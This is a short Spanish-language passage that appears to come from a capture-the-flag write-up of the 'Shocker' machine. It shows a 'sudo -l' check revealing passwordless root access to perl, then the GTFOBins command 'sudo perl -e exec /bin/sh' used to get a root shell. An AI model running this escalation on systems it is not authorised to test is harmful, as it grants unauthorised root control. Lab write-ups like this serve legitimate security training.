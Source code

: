 # Enumeracion
Se ejecuta el comando
```shell
sudo -l
```

![[Shocker10.png]]
Y en este caso nos muestra que podemos ejecutar el binario de perl, con permisos de root sin contraseña




# Explotacion

Asi que vamos a la pagina de [gtfobins](https://gtfobins.github.io/gtfobins/perl/#sudo) y nos da un comando para ejecutar una bash con privilegios
```bash
sudo perl -e 'exec "/bin/sh";'
```

![[Shocker11.png]]
